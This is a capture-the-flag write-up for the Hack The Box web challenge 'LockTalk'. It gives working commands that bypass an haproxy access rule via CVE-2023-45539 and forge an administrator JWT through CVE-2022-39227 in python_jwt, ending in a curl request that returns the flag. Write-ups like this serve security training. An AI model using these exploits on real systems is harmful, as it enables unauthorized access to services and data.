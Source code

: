 # [Web - medium] LockTalk

We are presented with a Python webapp. The Dockerfile downloads `haproxy-2.8.1`, which is the load balancer in front of the webapp served by `uwsgi`.

The webapp holds a chat between ransomware operators and their victims. As a guest we can use the `get_ticket` endpoint, while accessing the `chat` and `flag` are for administrator role. However haproxy configuration blocks access to the `get_ticket` endpoint.

```bash
frontend haproxy
    bind 0.0.0.0:1337
    default_backend backend
    http-request deny if { path_beg,url_dec -i /api/v1/get_ticket }
```

Looking for haproxy vulnerability, we have the conditions to exploit [CVE-2023-45539](https://nvd.nist.gov/vuln/detail/CVE-2023-45539). This allows to bypass the deny rule by adding a `#` sign at the end of the URL. Going to the `get_ticket` endpoint will get us a valid JWT token.

```python
@api_blueprint.route('/get_ticket', methods=['GET'])
def get_ticket():
    claims = {
        "role": "guest",
        "user": "guest_user"
    }
    token = jwt.generate_jwt(claims, current_app.config.get('JWT_SECRET_KEY'), 'PS256', datetime.timedelta(minutes=60))
    return jsonify({'ticket: ': token})
```

Using haproxy vulnerability to bypass the ACL and access this endpoint, we get our JWT back.

```bash
$ printf "GET /api/v1/get_ticket# HTTP/1.1\r\nhost: whatever\r\n\r\n" | nc -vw1 94.237.49.197 41543
Connection to 94.237.49.197 port 41543 [tcp/*] succeeded!
HTTP/1.1 200 OK
content-type: application/json
content-length: 554
server: uWSGI Server

{"ticket: ":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAwMDkyMjEsImlhdCI6MTcxMDAwNTYyMSwianRpIjoiNzZ2OFMwYks1MERLRXVLME1ZejRMZyIsIm5iZiI6MTcxMDAwNTYyMSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X\
3VzZXIifQ.kmmwXY60Habyu5qAGy-Ra_gD1VT6xmwq9QCr9weCtUVBIetE4ompTBxqTdy_KvvPzzFzYFa9XPAKnfoD4Z9luAFagR9vDNjqXJgmBmXil4dgR0UV0JZoOTURvtj0onv3pcDqiPHrcqO1HqEQ44QfLC0U0uJGbe1HDWLyvhgrgVPtNFF1eEqSu9pYXTjb_\
OfILkMxOKCv0mEQViOWIzic0CBmS5PlJ8XU5dNFITjV21K4AWFj8GWsC_tfhoVQ7Hyz0yFqGcmzsZcy9PkpwDefB9Fbz2VLjxvWBcwu2y4SlefJZD9UtNjC-bK3wkWwKgwTm8lBDzNZO4jZ587Q_S-9Mg"}
```

From there we need to find a way to escalate our guest claim into an administrator one. The library used to validate jwt is `python_jwt` especially from this `middleware.py` snippet.

```python
import python_jwt as jwt
[...]
def authorize_roles(roles):
    def decorator(func):
        @wraps(func)
        def wrapper(*args, **kwargs):
            token = request.headers.get('Authorization')
            if not token:
                return jsonify({'message': 'JWT token is missing or invalid.'}), 401
            try:
                token = jwt.verify_jwt(token, current_app.config.get('JWT_SECRET_KEY'), ['PS256'])
                user_role = token[1]['role']
                if user_role not in roles:
                    return jsonify({'message': f'{user_role} user does not have the required authorization to access the resource.'}), 403
                return func(*args, **kwargs)
```

The version used is `3.3.3` which is vulnerable to [CVE-2022-39227](https://nvd.nist.gov/vuln/detail/CVE-2022-39227) and has a [PoC is available](https://github.com/user0x1337/CVE-2022-39227/tree/main)

```bash
$ cat conf/requirements.txt
uwsgi
Flask
requests
python_jwt==3.3.3
```

Using that Python PoC, we can reuse our `"role": "guest"` claim JWT to modify it with a `"role": "administrator"` claim.

```bash
$ python cve_2022_39227.py -j 'eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAwMDkyMjEsImlhdCI6MTcxMDAwNTYyMSwianRpIjoiNzZ2OFMwYks1MERLRXVLME1ZejRMZyIsIm5iZiI6MTcxMDAwNTYyMSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ.kmmwXY60Habyu5qAGy-Ra_gD1VT6xmwq9QCr9weCtUVBIetE4ompTBxqTdy_KvvPzzFzYFa9XPAKnfoD4Z9luAFagR9vDNjqXJgmBmXil4dgR0UV0JZoOTURvtj0onv3pcDqiPHrcqO1HqEQ44QfLC0U0uJGbe1HDWLyvhgrgVPtNFF1eEqSu9pYXTjb_OfILkMxOKCv0mEQViOWIzic0CBmS5PlJ8XU5dNFITjV21K4AWFj8GWsC_tfhoVQ7Hyz0yFqGcmzsZcy9PkpwDefB9Fbz2VLjxvWBcwu2y4SlefJZD9UtNjC-bK3wkWwKgwTm8lBDzNZO4jZ587Q_S-9Mg' -i 'role=administrator'
[+] Retrieved base64 encoded payload: eyJleHAiOjE3MTAwMDkyMjEsImlhdCI6MTcxMDAwNTYyMSwianRpIjoiNzZ2OFMwYks1MERLRXVLME1ZejRMZyIsIm5iZiI6MTcxMDAwNTYyMSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ
[+] Decoded payload: {'exp': 1710009221, 'iat': 1710005621, 'jti': '76v8S0bK50DKEuK0MYz4Lg', 'nbf': 1710005621, 'role': 'guest', 'user': 'guest_user'}
[+] Inject new "fake" payload: {'exp': 1710009221, 'iat': 1710005621, 'jti': '76v8S0bK50DKEuK0MYz4Lg', 'nbf': 1710005621, 'role': 'administrator', 'user': 'guest_user'}
[+] Fake payload encoded: eyJleHAiOjE3MTAwMDkyMjEsImlhdCI6MTcxMDAwNTYyMSwianRpIjoiNzZ2OFMwYks1MERLRXVLME1ZejRMZyIsIm5iZiI6MTcxMDAwNTYyMSwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9

[+] New token:
 {"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAwMDkyMjEsImlhdCI6MTcxMDAwNTYyMSwianRpIjoiNzZ2OFMwYks1MERLRXVLME1ZejRMZyIsIm5iZiI6MTcxMDAwNTYyMSwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTAwMDkyMjEsImlhdCI6MTcxMDAwNTYyMSwianRpIjoiNzZ2OFMwYks1MERLRXVLME1ZejRMZyIsIm5iZiI6MTcxMDAwNTYyMSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"kmmwXY60Habyu5qAGy-Ra_gD1VT6xmwq9QCr9weCtUVBIetE4ompTBxqTdy_KvvPzzFzYFa9XPAKnfoD4Z9luAFagR9vDNjqXJgmBmXil4dgR0UV0JZoOTURvtj0onv3pcDqiPHrcqO1HqEQ44QfLC0U0uJGbe1HDWLyvhgrgVPtNFF1eEqSu9pYXTjb_OfILkMxOKCv0mEQViOWIzic0CBmS5PlJ8XU5dNFITjV21K4AWFj8GWsC_tfhoVQ7Hyz0yFqGcmzsZcy9PkpwDefB9Fbz2VLjxvWBcwu2y4SlefJZD9UtNjC-bK3wkWwKgwTm8lBDzNZO4jZ587Q_S-9Mg"}

Example (HTTP-Cookie):
------------------------------
auth={"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAwMDkyMjEsImlhdCI6MTcxMDAwNTYyMSwianRpIjoiNzZ2OFMwYks1MERLRXVLME1ZejRMZyIsIm5iZiI6MTcxMDAwNTYyMSwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTAwMDkyMjEsImlhdCI6MTcxMDAwNTYyMSwianRpIjoiNzZ2OFMwYks1MERLRXVLME1ZejRMZyIsIm5iZiI6MTcxMDAwNTYyMSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"kmmwXY60Habyu5qAGy-Ra_gD1VT6xmwq9QCr9weCtUVBIetE4ompTBxqTdy_KvvPzzFzYFa9XPAKnfoD4Z9luAFagR9vDNjqXJgmBmXil4dgR0UV0JZoOTURvtj0onv3pcDqiPHrcqO1HqEQ44QfLC0U0uJGbe1HDWLyvhgrgVPtNFF1eEqSu9pYXTjb_OfILkMxOKCv0mEQViOWIzic0CBmS5PlJ8XU5dNFITjV21K4AWFj8GWsC_tfhoVQ7Hyz0yFqGcmzsZcy9PkpwDefB9Fbz2VLjxvWBcwu2y4SlefJZD9UtNjC-bK3wkWwKgwTm8lBDzNZO4jZ587Q_S-9Mg"}
```

Finally using that administrator JWT we can use the `flag` endpoint.

```bash
$ curl -H 'Authorization: {"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAwMDkyMjEsImlhdCI6MTcxMDAwNTYyMSwianRpIjoiNzZ2OFMwYks1MERLRXVLME1ZejRMZyIsIm5iZiI6MTcxMDAwNTYyMSwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTAwMDkyMjEsImlhdCI6MTcxMDAwNTYyMSwianRpIjoiNzZ2OFMwYks1MERLRXVLME1ZejRMZyIsIm5iZiI6MTcxMDAwNTYyMSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"kmmwXY60Habyu5qAGy-Ra_gD1VT6xmwq9QCr9weCtUVBIetE4ompTBxqTdy_KvvPzzFzYFa9XPAKnfoD4Z9luAFagR9vDNjqXJgmBmXil4dgR0UV0JZoOTURvtj0onv3pcDqiPHrcqO1HqEQ44QfLC0U0uJGbe1HDWLyvhgrgVPtNFF1eEqSu9pYXTjb_OfILkMxOKCv0mEQViOWIzic0CBmS5PlJ8XU5dNFITjV21K4AWFj8GWsC_tfhoVQ7Hyz0yFqGcmzsZcy9PkpwDefB9Fbz2VLjxvWBcwu2y4SlefJZD9UtNjC-bK3wkWwKgwTm8lBDzNZO4jZ587Q_S-9Mg"}' 'http://94.237.49.197:41543/api/v1/flag'
{"message":"HTB{h4Pr0Xy_n3v3r_D1s@pp01n4s}"}
```